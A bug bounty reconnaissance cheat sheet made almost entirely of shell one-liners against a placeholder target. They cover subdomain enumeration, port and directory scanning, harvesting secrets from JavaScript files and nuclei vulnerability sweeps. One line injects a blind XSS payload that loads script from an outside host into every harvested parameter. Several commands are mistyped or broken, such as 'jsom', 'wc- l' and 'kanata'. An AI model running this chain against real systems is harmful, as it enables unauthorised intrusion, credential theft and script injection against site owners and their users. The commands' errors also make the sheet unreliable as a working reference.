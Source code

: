 # Bug Bounty Methodology
## PART I
    subfinder -dL domains.txt -all -recursive -o subdomains.txt
    cat subdomains.txt | wc -l
    
    curl -s https://crt.sh/\?q\=\amazon.com\&output\=jsom | jq -r '.[].name_value' | grep -Po '(\w+\.\w+\.\w+)$' | anew subdomains.txt
    
    cat subdomains.txt | httpx-toolkit -l subdomains.txt -ports 443,80,8080,8000,8888 -threads 200 > subdomains_alive.txt
    cat subdomains_alive.txt | wc -l

    naabu -list subdomains.txt -c 50 -nmap-cli 'nmap -sV -sC' -o naabu-full.txt

    dirsearch -l subdomains_alive.txt -x 500,502,429,404,400 -R 5 --random-agent -t 100 -F -o directory.txt -w /usr/share/seclists/common.txt
    cat directory.txt | wc -l

    cat subdomains_alive.txt | gau > params.txt
    cat params.txt | wc -l

    cat params.txt | uro -o filterparam.txt
    cat filterparam.txt | wc -l
    
    cat filterparam.txt | grep ".js$" > jsfiles.txt
    cat jsfiles.txt | uro | anew jsfiles.txt
    cat jsfiles.txt | wc -l

    # use SecretFinder module to extract secret info from jsfile
    cat jsfiles.txt | while read url; do python3 /SecretFinder.py -i $url -o cli >> secret.txt; done
    cat secret.txt | grep aws/username//account_id/heroku           ## use keywords that could reveal secrets
    cat secret.txt | heroku                                         ## recon-understand-try-improve-repeat

    nuclei -list filterparam.txt -c 70 -rl 200 -fhr -lfa -t /Nuclei-Template -o nuclei-target.txt -es info 
    nuclei -list sorted_param_10k.txt -c 70 -rl 200 -fhr -lfa -t /Nuclei-Template -o nuclei-target.txt -es info 

    ## Shodan.com => Search         ::=> "ssl: 'traget.com' 200"
    ## Shodan.com => Facet Analysis ::=> "ssl: 'traget.com' 200" "http:status/title"

## PART II
    subfinder -d target.coom -all -recursive > subdomains.txt 
    cat subdomains.txt | httpx-toolkit -ports 443,80,8080,8000,8888 -threads 200 > subdomains_alive.txt

    katana -u subdomains_alive.txt -d 5 -ps -pss -waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef wolf,css,png,svg,jpg,wolf2,jpeg,gif,svg -o allurls.txt
    cat allurls.txt | wc- l

    cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
    cat allurls.txt | grep -E "\.js$" >> js.txt

    cat js.txt | nuclei -t /Nuclei-Template/http/exposures/ -c 30

    echo www.target.com | kanata -ps | grep -E "\.js$" | nuclei -t /Nuclei-Template/http/exposures/ -c 30

    dirsearch -u https://www.validator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bkp,cache,cgi,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,sql,sql.gz,http://sql.zip,sql.tar,gz,sql~,swp,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js,.json

    subfinder -d target.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp ></script>' -parameters

    subzy run --targets subdomains_alive.txt --verify-ssl
    # subzy run --targets subdomains_alive.txt --concurrency 100 --hide-fails --verify-ssl

    cat subdomains.txt | grep dashboard
    cat subdomains.txt | grep admin/beta/staging/dev/control/panel/api/old      # Run seperately
 
    python3 corsy.py -i /subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION:Hacked"

    nuclei -list /subdomains_alive.txt -t /Priv8-Nuclei/cors
    nuclei -list /subdomains_alive.txt -tags cves,osint,tech

    cat allurls.txt | gf lfi | nuclei -tags lfi

    bash make-payloads.sh www.target.com
    cat allurls.txt | gf redirect | openredirex -p /Open-Redirect/payloads/burp/www.target.com.txt 

    cat subdomains.txt | nuclei -t /Priv8-Nuclei/crlf/crlf2.yaml -v 
    cat allurls.txt | gf redirect | openredirex

    shortscan https://mam.target.com/ -F        # run twice or trice

## PART III - OpenRedirect
    ::=> Google => site:target.com inurl:redir |inurl: redirect | inurl:url | inurl:return | inurl:src=http | inurl:r=http | inurl:goto=http
    ::=> Use chrome extensions as well and use GoogleDorks indepth



